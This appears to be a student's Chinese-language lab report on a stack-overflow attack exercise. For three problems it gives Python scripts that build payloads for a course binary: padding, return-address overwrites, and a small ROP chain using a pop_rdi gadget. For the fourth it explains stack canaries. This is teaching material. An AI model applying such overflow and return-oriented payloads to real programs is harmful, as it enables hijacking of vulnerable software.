



# 栈溢出攻击实验
---
姓名：张启元
学号：2024201541
## 题目解决思路


### Problem 1: 
- **分析**：
    本题较为简单，直接写payload覆盖缓冲区、rbp指针，然后将返回地址掉包即可。
- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_address
# Write the payload to a file
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```
- **结果**：附上图片


### Problem 2:
- **分析**：本题相对于第一题多了一步校验：

即：要调用func2，必须让rdi的值为0x3f8。注意到代码中提供了pop_rdi函数，结合课内知识，pop寄存器相当于将栈上的值赋给寄存器，据此我们可以编写payload，先用16*A覆盖，然后跳转到pop_rdi函数，然后按照小端序写上0x3f8，最后跳转到输出函数即可。
- **解决方案**：
```python
payload  = b"A" * 16
payload += b"\xc7\x12\x40\x00\x00\x00\x00\x00"   
payload += b"\xf8\x03\x00\x00\x00\x00\x00\x00"   
payload += b"\x16\x12\x40\x00\x00\x00\x00\x00"  
# Write the payload to a file
with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans2.txt")
```
- **结果**：


### Problem 3: 
- **分析**：
本题的初步思路和上题一样，通过构造检验值来完成。但问题在于，提供的mov_rdi函数无法改变rdi寄存器的值，只是对它的值进行传递。鉴于此，我选择直接跳过检查部分而让返回地址直接指向输出部分0x40122b，这样即可成功实现输出。
- **解决方案**：
```python
payload  = b"A" * 32
payload += b"\x00\x38\x40\x00\x00\x00\x00\x00"  
payload += b"\x2b\x12\x40\x00\x00\x00\x00\x00"  # ret → 0x40122b (func1 成功分支)

with open("ans3.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans3.txt")
```
- **结果**：

### Problem 4: 
- **分析**：Canary机制即在栈帧的返回地址之前放置一个随机值，并在函数返回时检验随机值，若不相等则说明函数收到了overflow攻击。
- **解决方案**：本题无需写payload，只需在终端输入值即可
- **结果**：
## 思考与总结
发现最后一题无法按照十六进制输入

感觉这个lab做起来还比较有意思，ai率显著低于cachelab和linklab（）。虽然bzd迟交了没有（）

## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
